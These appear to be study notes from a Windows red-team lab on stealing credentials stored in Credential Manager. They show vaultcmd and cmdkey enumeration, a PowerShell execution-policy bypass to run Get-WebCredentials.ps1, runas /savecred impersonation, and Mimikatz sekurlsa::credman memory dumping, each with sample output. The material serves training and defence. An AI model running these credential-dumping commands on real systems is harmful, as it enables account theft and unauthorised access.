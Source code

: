 Credential Manager is a Windows feature that stores logon-sensitive information for websites, applications, and networks. It contains login credentials such as usernames, passwords, and internet addresses. There are four credential categories:

- Web credentials contain authentication details stored in Internet browsers or other applications.
- Windows credentials contain Windows authentication details, such as NTLM or Kerberos.
- Generic credentials contain basic authentication details, such as clear-text usernames and passwords.
- Certificate-based credentials: These are authentication details based on certificates.

Note that authentication details are stored on the user's folder and are not shared among Windows user accounts. However, they are cached in memory.

## Accessing Credential Manager
We can access the Windows Credential Manager through GUI (Control Panel -> User Accounts -> Credential Manager) or the command prompt. In this task, the focus will be more on the command prompt scenario where the GUI is not available.
	![](Pasted%20image%2020241124002432.png)
We will be using the Microsoft Credentials Manager `vaultcmd` utility. Let's start to enumerate if there are any stored credentials. First, we list the current windows vaults available in the Windows target.

Listing the Available Credentials from the Credentials Manager
```markup
C:\Users\Administrator>vaultcmd /list
Currently loaded vaults:
        Vault: Web Credentials
        Vault Guid:4BF4C442-9B8A-41A0-B380-DD4A704DDB28
        Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

        Vault: Windows Credentials
        Vault Guid:77BC582B-F0A6-4E15-4E80-61736B6F3B29
        Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault
```

By default, Windows has two vaults, one for Web and the other one for Windows machine credentials. The above output confirms that we have the two default vaults.

Let's check if there are any stored credentials in the Web Credentials vault by running the `vaultcmd` command with `/listproperties`.

Checking if there Are any Stored Credentials in the "Web Credentials."
```markup
C:\Users\Administrator>VaultCmd /listproperties:"Web Credentials"
Vault Properties: Web Credentials
Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28
Number of credentials: 1
Current protection method: DPAPI
```

The output shows that we have one stored credential in the specified vault. Now let's try to list more information about the stored credential as follows,

Listing Credentials Details for "Web Credentials"
```markup
C:\Users\Administrator>VaultCmd /listcreds:"Web Credentials"
Credentials in vault: Web Credentials

Credential schema: Windows Web Password Credential
Resource: internal-app.thm.red
Identity: THMUser Saved By: MSEdge
Hidden: No
Roaming: Yes
```

## Credential Dumping
The VaultCmd is not able to show the password, but we can rely on other PowerShell Scripts such as [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1), which is already included in the attached VM.

Ensure to execute PowerShell with bypass policy to import it as a module as follows:

Getting Clean-text Password from Web Credentials
```markup
C:\Users\Administrator>powershell -ex bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator> Import-Module C:\Tools\Get-WebCredentials.ps1
PS C:\Users\Administrator> Get-WebCredentials

UserName  Resource             Password     Properties
--------  --------             --------     ----------
THMUser internal-app.thm.red Password! {[hidden, False], [applicationid, 00000000-0000-0000-0000-000000000000], [application, MSEdge]}
```

The output shows that we obtained the username and password for accessing the internal application.

## RunAs
An alternative method of taking advantage of stored credentials is by using RunAs. RunAs is a command-line built-in tool that allows running Windows applications or tools under different users' permissions. The RunAs tool has various command arguments that could be used in the Windows system. The `/savecred` argument allows you to save the credentials of the user in Windows Credentials Manager (under the Windows Credentials section). So, the next time we execute as the same user, runas will not ask for a password.

Let's apply it to the attached Windows machine. Another way to enumerate stored credentials is by using `cmdkey`, which is a tool to create, delete, and display stored Windows credentials. By providing the `/list` argument, we can show all stored credentials, or we can specify the credential to display more details `/list:computername`.

```
C:\Users\thm>cmdkey /list 
Currently stored credentials:
 Target: Domain:interactive=thm\thm-local
 Type: Domain Password 
 User: thm\thm-local
```

The output shows that we have a domain password stored as the `thm\thm-local` user. Note that stored credentials could be for other servers too. Now let's use runas to execute Windows applications as the `thm-local` user. 

Run CMD.exe As a User with the /savecred argument
```markup
C:\Users\thm>runas /savecred /user:THM.red\thm-local cmd.exe
Attempting to start cmd.exe as user "THM.red\thm-local" ...
```

A new cmd.exe pops up with a command prompt ready to use. Now run the whoami command to confirm that we are running under the desired user.

## Mimikatz
Mimikatz is a tool that can dump clear-text passwords stored in the Credential Manager from memory. The steps are similar to those shown in the previous section (Memory dump), but we can specify to show the credentials manager section only this time.

Dumping Memory for Credentials Manager
```markup
C:\Users\Administrator>c:\Tools\Mimikatz\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman
```

**Note:**
	The techniques discussed in this task also could be done through other tools such as Empire, Metasploit, etc..

## Example
- Listing the Available Credentials from the Credentials Manager
	![](Pasted%20image%2020241124013431.png)

- Checking if there Are any Stored Credentials in the "Web Credentials."
	![](Pasted%20image%2020241124013616.png)
- Listing Credentials Details for "Web Credentials" // '' Windows Credentials''
	![](Pasted%20image%2020241124013828.png)
- Getting Clean-text Password from Web Credentials
	![](Pasted%20image%2020241124014259.png)
- Dumping Memory for Credentials Manager using Mimikatz
	![](Pasted%20image%2020241125155605.png)
- Run CMD.exe As a User with the /savecred argument	
	  ![](Pasted%20image%2020241124015046.png)![](Pasted%20image%2020241124015200.png)